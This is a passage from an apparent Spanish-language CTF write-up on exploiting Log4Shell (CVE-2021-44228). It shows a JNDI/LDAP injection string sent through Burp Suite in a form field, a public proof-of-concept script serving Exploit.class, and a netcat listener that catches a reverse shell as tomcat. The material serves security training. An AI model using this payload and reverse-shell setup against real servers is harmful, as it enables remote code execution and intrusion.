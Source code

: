 - Ahora nos dice que ejecutemos lo siguiente `Send me: ${jndi:ldap://10.8.1.127:1389/a}`, esta es una URL JNDI (Java Naming and Directory Interface) que apunta a un servidor LDAP.

- Antes de enviarlo, vamos a convertirlo en **URL-encoded** .

<p align="center">
<img src="https://i.imgur.com/tboV7kX.png">
</p>

- Ahora lo Copeamos y modificamos la petición que tenemos con **burpsuite**.

- Si enviamos la petición antes de poner la data, vemos que obtenemos esa respuesta, así que podemos basarnos en obtener algo similar para comprobar que funcione.

<p align="center">
<img src="https://i.imgur.com/86C57EP.png">
</p>

- Ahora en la parte de **name** pondremos todo:

<p align="center">
<img src="https://i.imgur.com/C6P8ZHF.png">
</p>

- Y enviamos la petición.

<p align="center">
<img src="https://i.imgur.com/1zE3nfi.png">
</p>

## Shell as tomcat

- Y ahora nos llega la shell.

```bash
➜  log4j-shell-poc git:(main) ✗ sudo nc -nvlp 443
[sudo] password for miguel:
listening on [any] 443 ...
connect to [10.8.1.127] from (UNKNOWN) [10.10.121.97] 47262
whoami
tomcat
```

- Vemos que sí se obtuvo una petición por parte del servidor.

```bash
➜  log4j-shell-poc git:(main) python3 poc.py --userip 10.8.1.127 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.8.1.127:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.8.1.127:8000/Exploit.class
10.10.121.97 - - [23/Mar/2024 11:40:17] "GET /Exploit.class HTTP/1.1" 200 -
```
